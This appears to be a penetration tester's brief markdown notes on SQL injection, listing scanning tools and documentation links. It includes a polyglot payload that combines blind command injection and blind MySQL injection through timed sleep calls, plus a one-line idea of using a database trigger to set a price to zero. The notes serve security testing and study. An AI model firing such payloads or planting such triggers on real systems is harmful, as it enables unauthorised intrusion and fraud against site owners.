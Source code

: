 # tools

- AutoSQLi: https://github.com/jesuiscamille/AutoSQLi
- SQLiDumper: https://www.cybrary.it/0p3n/pentesting-sqli-dumper-v8-tool/
- Automatic SQL injection with Charles and sqlmap api
  - http://0r1.me/SQLiScanner/
  - https://github.com/0xbug/SQLiScanner

# PHP

- Good example from DOCs, where parameterization is not used: http://php.net/manual/en/mysqli.examples-basic.php (use: https://phptherightway.com/)

# Payload

Combines blind command injection and blind sql injection ( mysql ) in one payload (works with no quotes/single quotes and double quotes):
```
/*$(sleep 5)`sleep 5``*/sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"`
```
> https://mobile.twitter.com/bl4ckh4ck5/status/1100167033407320065

# Techniques
- Add a trigger to do a malicious action (price 0)

